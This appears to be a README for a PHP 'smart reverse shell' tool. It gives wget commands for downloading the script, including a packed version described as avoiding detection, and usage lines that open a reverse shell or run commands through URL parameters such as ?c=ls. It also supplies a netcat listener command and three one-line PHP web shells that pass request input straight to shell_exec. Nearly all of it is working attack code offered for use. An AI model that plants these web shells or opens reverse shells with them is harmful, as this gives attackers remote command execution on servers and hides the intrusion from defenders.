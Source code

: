 # PHP Smart Reverse Shell scripts
A smarter shell script

## Get script
Grap the latest release
```shell
wget -O srs.php https://github.com/GramThanos/php-smart-reverse-shell/releases/download/v2.0-smart/srs.php
```

Get the packed version to avoid detection (packed using [Split&Encrypt](https://github.com/GramThanos/PHP-Split-Encrypt))
```shell
wget -O srs.php https://github.com/GramThanos/php-smart-reverse-shell/releases/download/v2.0-smart/srs.packed.php
```

## Script Commands
 - Call reverse shell from console `php ./srs.php 127.0.0.1 1234`
 - Call reverse shell from url `https://example.com/srs.php?ip=127.0.0.1&port=1234`
 - Run command from url `https://example.com/srs.php?c=ls%20-la`
 - Run command from url `https://example.com/srs.php?r=ls%20-la`(redirect errors to stdout)

## Other commands

### Sockets
Wait for a reverse shell connection
```shell
nc -l 127.0.0.1 4444
```

### PHP
Executing shell code with PHP
```PHP
<?php echo shell_exec($_GET['command']);?>
```
or
```PHP
<?=isset($_GET['c'])?shell_exec($_GET['c']):'';?>
```
or 
```PHP
<?php if(isset($_GET['c'])){header('Content-Type: text/plain');die(shell_exec($_REQUEST['c'].'2>&1'));}?>
```

Download Smart Reverse Shell and open shell connection
```shell
wget -O srs.php https://raw.githubusercontent.com/GramThanos/php-smart-reverse-shell/master/srs.php
php ./srs.php 127.0.0.1 1234
```
